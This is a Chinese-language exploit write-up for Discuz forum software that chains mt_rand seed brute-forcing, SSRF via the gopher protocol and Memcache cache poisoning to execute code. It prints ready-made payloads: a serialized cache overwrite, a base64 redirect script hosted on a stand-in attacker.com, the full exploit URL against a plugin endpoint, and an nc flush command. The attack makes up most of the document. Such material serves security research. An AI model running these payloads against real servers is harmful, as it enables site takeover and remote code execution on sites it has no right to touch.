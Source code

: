 # Discuz authkey+Memcache+ssrf getshell

## 一、漏洞简介

需要得到authkey

## 二、漏洞影响

## 三、复现过程

Dz 整合 Memcache 配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![](images/15889907913808.jpg)


Dz 在安装的时候，对于缓存中的键名加了随机字符串作为前缀。所以如果 SSRF 要攻击 Memcache ，第一个问题是，如何找到正确的键名？

`install/index.php 345-357`行：


```php
        $uid = DZUCFULL ? 1 : $adminuser['uid'];
        $authkey = md5($_SERVER['SERVER_ADDR'].$_SERVER['HTTP_USER_AGENT'].$dbhost.$dbuser.$dbpw.$dbname.$username.$password.$pconnect.substr($timestamp, 0, 8)).random(18);
        $_config['db'][1]['dbhost'] = $dbhost;
        $_config['db'][1]['dbname'] = $dbname;
        $_config['db'][1]['dbpw'] = $dbpw;
        $_config['db'][1]['dbuser'] = $dbuser;
        $_config['db'][1]['tablepre'] = $tablepre;
        $_config['admincp']['founder'] = (string)$uid;
        $_config['security']['authkey'] = $authkey;
        $_config['cookie']['cookiepre'] = random(4).'_';
        $_config['memory']['prefix'] = random(6).'_';

        save_config_file(ROOT_PATH.CONFIG, $_config, $default_config);
```

这是 Dz 在安装的时候的一段代码，这段代码设置了 authkey、Cookie 前缀以及缓存键名前缀，其中用到了random函数生成随机字符串。所以跟进这个random：


```php
function random($length) {
    $hash = '';
    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
    $max = strlen($chars) - 1;
    PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
    for($i = 0; $i < $length; $i++) {
        $hash .= $chars[mt_rand(0, $max)];
    }
    return $hash;
}
```

可以发现，如果 PHP 版本大于 4.2.0，那么 mt_rand 随机数的种子是不变的。也就是说，生成 authkey、Cookie 前缀以及缓存键名前缀时调用的 mt_rand 用的都是同一个种子，而 Cookie 前缀是已知的，通过观察 HTTP 请求就可以知道。因此，随机数播种的种子可以被缩到一个极小的范围内进行猜解。这里可以用 `php_mt_seed` 进行种子爆破。

通过 mt_rand 种子的猜解，缓存键名前缀的可能性从 62^6 缩小到不到 1000 个，这就完全属于可以爆破的范畴了。对猜解出来的所有可能的缓存键名前缀分别构造 SSRF 请求发送到服务器，最后即能更改某一键名对应的键值。

Memcache 缓存键名的问题解决了，接下来的问题是，缓存数据被加载到哪了？如何通过修改缓存数据来 getshell？

这一部分的思路就可以直接参照 chengable 写的那篇文章了，output_replace 函数细节有略微变化，但大体思路是一致的，所以我也不再赘述了。

最后准备用 gopher 协议构造 SSRF 的 payload。写这样一段代码（先假设缓存键名前缀是 IwRW7l）:


```php
<?php

$_G['setting']['output']['preg']['search']['plugins'] = '/.*/';
$_G['setting']['output']['preg']['replace']['plugins'] = 'phpinfo()';
$_G['setting']['rewritestatus'] = 1;

$memcache = new Memcache;
$memcache->connect('localhost', 11211) or die ("Could not connect");
$memcache->set('IwRW7l_setting', $_G['setting']);
```

运行这段 PHP 代码，同时抓包，然后将数据包改成 gopher 的形式，即：


```bash
gopher://localhost:11211/_set%20IwRW7l_setting%201%200%20161%0d%0aa%3A2%3A%7Bs%3A6%3A%22output%22%3Ba%3A1%3A%7Bs%3A4%3A%22preg%22%3Ba%3A2%3A%7Bs%3A6%3A%22search%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A4%3A%22%2F.*%2F%22%3B%7Ds%3A7%3A%22replace%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A9%3A%22phpinfo()%22%3B%7D%7D%7Ds%3A13%3A%22rewritestatus%22%3Bi%3A1%3B%7D
```

但是直接用它去 SSRF 是不可以的，会被`_xss_check`检测到特殊字符而被拒绝请求：

![](images/15889908551407.png)

所以利用这里请求跟随跳转的特点，在自己的远程服务器上放类似于这样的一个脚本：


```php
<?php

$url = base64_decode($_REQUEST['url']);
header( "Location: " . $url );
```

这样就可以将 SSRF URL 进行 base64 编码从而规避_xss_check的检测。


```php
http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http%3A%2F%2Fattacker.com%2F302.php%3Furl%3DZ29waGVyOi8vbG9jYWxob3N0OjExMjExL19zZXQlMjBJd1JXN2xfc2V0dGluZyUyMDElMjAwJTIwMTYxJTBkJTBhYSUzQTIlM0ElN0JzJTNBNiUzQSUyMm91dHB1dCUyMiUzQmElM0ExJTNBJTdCcyUzQTQlM0ElMjJwcmVnJTIyJTNCYSUzQTIlM0ElN0JzJTNBNiUzQSUyMnNlYXJjaCUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTQlM0ElMjIlMkYuKiUyRiUyMiUzQiU3RHMlM0E3JTNBJTIycmVwbGFjZSUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTklM0ElMjJwaHBpbmZvKCklMjIlM0IlN0QlN0QlN0RzJTNBMTMlM0ElMjJyZXdyaXRlc3RhdHVzJTIyJTNCaSUzQTElM0IlN0Q%253D&wxopenid=xxxyyy
```

再访问`/forum.php?mod=ajax&action=getthreadtypes&inajax=yes`，即可看到`phpinfo()`代码已被执行：

![](images/15889909010907.png)


由于缓存被暴力篡改，会导致网站无法正常运行。恢复正常办法是刷新缓存。用上面的思路直接一次 getshell 后执行以下命令，网站就可以恢复正常：


```bash
echo -e 'flush_all' | nc localhost 11211
```

**参考链接**

https://zhuanlan.zhihu.com/p/51907363